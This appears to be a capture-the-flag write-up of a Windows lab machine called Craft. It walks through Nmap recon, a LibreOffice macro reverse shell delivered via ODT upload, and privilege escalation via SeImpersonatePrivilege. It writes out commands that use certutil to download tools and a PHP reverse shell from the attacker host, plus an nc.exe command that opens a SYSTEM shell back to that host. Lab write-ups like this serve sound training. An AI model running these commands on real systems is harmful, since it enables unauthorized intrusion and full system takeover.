










Writeup by wook413

[TOC]

# Recon

## Nmap

I began with a comprehensive TCP scan of all 65,535 ports. The results indicated that only port 80 is open.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:03 UTC
Nmap scan report for 192.168.164.169
Host is up (0.046s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 43.88 seconds
```

As a follow up, I performed a targeted service scan and a UDP scan of the top 10 ports to ensure no overlooked services were running.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 80 -Pn
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:05 UTC
Nmap scan report for 192.168.164.169
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10 -Pn
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:08 UTC
Nmap scan report for 192.168.164.169
Host is up.

PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   open|filtered dhcps
123/udp  open|filtered ntp
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open|filtered snmp
445/udp  open|filtered microsoft-ds
631/udp  open|filtered ipp
1434/udp open|filtered ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 3.23 seconds
```

# Initial Access

## HTTP 80

Whenever I encounter an HTTP service, I run the `http-enum` Nmap script as part of my standard enumeration process. The script identified several interesting directories including `/uploads`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80 -Pn
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:10 UTC
Nmap scan report for 192.168.164.169
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
|   /icons/: Potentially interesting folder w/ directory listing
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.77 seconds
```

Upon browsing the website on port 80, I discovered a file upload functionality. In CTF scenarios, these are often vulnerable.





After testing with a random image, I found that the server only accepts `.odt` (OpenDocument Text) files.



I opened `LibreOffice` and created a macro containing a reverse shell payload. The macro was designed to trigger as soon as the file is opened by the server.



I uploaded the `.odt` file and this time it was accepted by the server.



After uploading `wook_payload.odt` , I navigated to the `/uploads/` directory and confirmed the file was present.



# Shell as `thecybergeek`

Shortly after, the macro was triggered. The server retrieved the binary and I successfully obtained a reverse shell as the user `thecybergeek` .



I was logged in as `thecybergeek` user.

```bash
C:\\Program Files\\LibreOffice\\program>whoami
whoami
craft\\thecybergeek
```

Found `local.txt`

```bash
C:\\Users\\thecybergeek\\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\\Users\\thecybergeek\\Desktop

07/13/2021  02:38 AM    <DIR>          .
07/13/2021  02:38 AM    <DIR>          ..
01/17/2026  08:02 AM                34 local.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,691,629,056 bytes free

C:\\Users\\thecybergeek\\Desktop>type local.txt
type local.txt
d32...
```

# Privilege Escalation

To enumerate potential privilege escalation vectors, I ran `Invoke-PrivescCheck` .

```bash
PS C:\\Users\\Public> certutil -urlcache -split -f <http://192.168.45.236/PrivescCheck.ps1> PrivescCheck.ps1
certutil -urlcache -split -f <http://192.168.45.236/PrivescCheck.ps1> PrivescCheck.ps1
****  Online  ****
  000000  ...
  03644a
CertUtil: -URLCache command completed successfully.
powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"
```

The report indicated that the current user has write permissions in the `C:\\xampp\\apache\\bin` directory.



I further confirmed that I had write access to the webroot directory, `C:\\xampp\\htdocs` . This meant I could host a malicious PHP payload locally and trigger it externally.

```powershell
C:\\xampp\\htdocs>echo 'a' > a.txt
echo 'a' > a.txt

C:\\xampp\\htdocs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\\xampp\\htdocs

01/17/2026  10:53 AM    <DIR>          .
01/17/2026  10:53 AM    <DIR>          ..
01/17/2026  10:53 AM                 6 a.txt
07/13/2021  02:18 AM    <DIR>          assets
07/13/2021  02:18 AM    <DIR>          css
07/07/2021  09:53 AM             9,635 index.php
07/13/2021  02:18 AM    <DIR>          js
07/07/2021  08:56 AM               835 upload.php
01/17/2026  10:30 AM    <DIR>          uploads
               3 File(s)         10,476 bytes
               6 Dir(s)  10,413,010,944 bytes free
```

I transferred `Ivan-Sincek.php` to the webroot directory.



```powershell
C:\\xampp\\htdocs>certutil -urlcache -split -f <http://192.168.45.236/Ivan-Sincek.php>
certutil -urlcache -split -f <http://192.168.45.236/Ivan-Sincek.php>
****  Online  ****
  0000  ...
  244f
CertUtil: -URLCache command completed successfully.
```

After triggering the script via the browser, I gained a new shell, this time as the `apache` user.



```powershell
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.164.169] 50237
SOCKET: Shell has connected! PID: 968
Microsoft Windows [Version 10.0.17763.2029]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\xampp\\htdocs>whoami
craft\\apache
```

Checking the privileges of the `apache` user revealed that `SeImpersonatePrivilege` was enabled. This is a well-known vector for privilege escalation on Windows.

```powershell
C:\\xampp\\htdocs>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I transferred `gp.exe` to the target machine.

```powershell
C:\\Users\\Public>certutil -urlcache -split -f <http://192.168.45.236/gp.exe> gp.exe
****  Online  ****
  0000  ...
  e000
CertUtil: -URLCache command completed successfully.
```

I executed a command through `gp.exe` to trigger another reverse shell using `nc.exe` with `System` privileges.

```powershell
C:\\Users\\Public>.\\gp.exe -cmd "nc.exe 192.168.45.236 443 -e C:\\Windows\\System32\\cmd.exe"
```

# Shell as `system`

The exploit was successful, granting me a shell as `NT AUTHORITY\\SYSTEM` .

```powershell
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.164.169] 50245
Microsoft Windows [Version 10.0.17763.2029]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32>whoami
whoami
```

Found `proof.txt`

```powershell
C:\\Users\\Administrator\\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\\Users\\Administrator\\Desktop

07/13/2021  02:38 AM    <DIR>          .
07/13/2021  02:38 AM    <DIR>          ..
01/17/2026  08:02 AM                34 proof.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,412,666,880 bytes free

C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
6c6...
```